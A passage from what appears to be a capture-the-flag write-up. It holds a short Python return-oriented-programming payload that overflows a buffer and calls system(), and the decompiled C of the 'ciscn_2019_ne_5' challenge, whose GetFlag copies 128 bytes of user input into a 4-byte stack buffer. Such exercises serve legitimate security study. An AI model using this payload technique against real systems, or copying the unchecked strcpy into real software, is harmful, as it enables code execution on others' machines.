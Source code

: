 ```python
pop_rip_ret = next(elf_file.search(asm('pop rdi\nret')))
payload = b'a'*0x88 + p64(pop_rip_ret) + p64(0x600a90) + p64(elf.plt['system'])
```

## ciscn_2019_ne_5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  //...
  char src[4]; // [esp+4h] [ebp-FCh] BYREF
  //...
  char s1[4]; // [esp+84h] [ebp-7Ch] BYREF
  //...
  __isoc99_scanf("%100s", s1);
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  //...
  switch ( v4 )
  {
    case 1:
      AddLog(src);
      result = sub_804892B(argc, argv, envp);
      break;
    //...
    case 3:
      Print();
      result = sub_804892B(argc, argv, envp);
      break;
    case 4:
      GetFlag(src);
      result = sub_804892B(argc, argv, envp);
      break;
  }
  return result;
}

int __cdecl AddLog(int a1)
{
  printf("Please input new log info:");
  return __isoc99_scanf("%128s", a1);
}

int Print()
{
  return system("echo Printing......");
}

int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF

  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```
